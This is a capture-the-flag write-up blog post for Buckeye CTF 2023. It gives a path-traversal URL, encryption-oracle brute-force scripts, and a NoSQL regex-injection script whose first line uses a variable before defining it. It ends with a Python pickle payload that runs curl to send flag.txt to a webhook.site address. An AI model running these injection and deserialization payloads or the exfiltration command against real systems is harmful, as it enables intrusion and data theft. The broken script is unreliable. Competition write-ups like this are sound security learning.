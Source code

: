 ```yaml
---
title: Buckeye CTF 2023
description: I copied this from discord messages I sent
date: 2023-10-02
scheduled: 2023-10-02
tags: ctf
layout: layouts/post.njk
image: https://cdn.pixabay.com/photo/2020/08/30/20/54/rice-field-5530707_1280.jpg
---
```



## Stray 
I wrote down this was a javascript type pollution LFI

https://stray.chall.pwnoh.io/cat?category[]=../flag.txt

bctf{j4v45cr1p7_15_4_6r347_l4n6u463}


## Electronical 

I did this one in three parts since my script was broken but still solved it. Even the official solution for this one said "solve script doesn't entirely work but mostly"

### Script1
```
import string
import requests

zeros=11
payload="bctf"
while zeros!=0:
    goal=requests.get("https://electronical.chall.pwnoh.io/encrypt?message="+'0'*zeros).text[:32]
    print("Goal = ", goal)
    for char in string.printable:
        print('0'*zeros+payload+char)
        check=requests.get("https://electronical.chall.pwnoh.io/encrypt?message="+'0'*zeros+payload+char).text[:32]
        print("Check = ", check)
        if (check==goal):
            print("Correct")
            payload+=char
            zeros-=1
            break
```

### Script2
```
import string
import requests

zeros=16
payload="bctf{1_c4n7_b3l"
while zeros!=0:
    goal=requests.get("https://electronical.chall.pwnoh.io/encrypt?message="+'0'*zeros).text[32:64]
    print("Goal = ", goal)
    for char in string.printable:
        print('0'*zeros+payload+char)
        check=requests.get("https://electronical.chall.pwnoh.io/encrypt?message="+'0'*zeros+payload+char).text[32:64]
        print("Check = ", check)
        if (check==goal):
            print("Correct")
            payload+=char
            break
    zeros-=1
```

### Script3
```
import string
import requests

zeros=16
payload="bctf{1_c4n7_b3l13v3_u_f0und_my_"
while zeros!=0:
    goal=requests.get("https://electronical.chall.pwnoh.io/encrypt?message="+'0'*zeros).text[64:96]
    print("Goal = ", goal)
    for char in string.printable:
        print('0'*zeros+payload+char)
        check=requests.get("https://electronical.chall.pwnoh.io/encrypt?message="+'0'*zeros+payload+char).text[64:96]
        print("Check = ", check)
        if (check==goal):
            print("Correct")
            payload+=char
            break
    zeros-=1
```

## Area51
Abusing NoSQL injection. See https://portswigger.net/web-security/nosql-injection
```
import requests
import string

success=len(requests.get("https://area51.chall.pwnoh.io/",cookies={"session":"{\"token\":{\"$regex\":\""+password+".*\"}}"}).content)
keyspace=string.ascii_letters+string.digits+"_"+"{"+"}"
password="bctf"
while(password[-1]!='}'):
     for char in keyspace:
             print(password+char)
             if(len(requests.get("https://area51.chall.pwnoh.io/",cookies={"session":"{\"token\":{\"$regex\":\""+password+char+".*\"}}"}).content)==success): 
                 password+=char
                 break
```

## Text Adventure API

Only slightly different from official solution. Save pickle is loaded on the server allowing RCE via python reduce

```
class test:
  def __reduce__(self):
             import subprocess
             return subprocess.check_output, (["curl","-d","@flag.txt","https://webhook.site/d5092a4a-c837-495e-b231-1511bcdaddae"],)
pickle.dump(test(),open('C:/Users/Cramik/Desktop/payload5.pkl','wb'))
```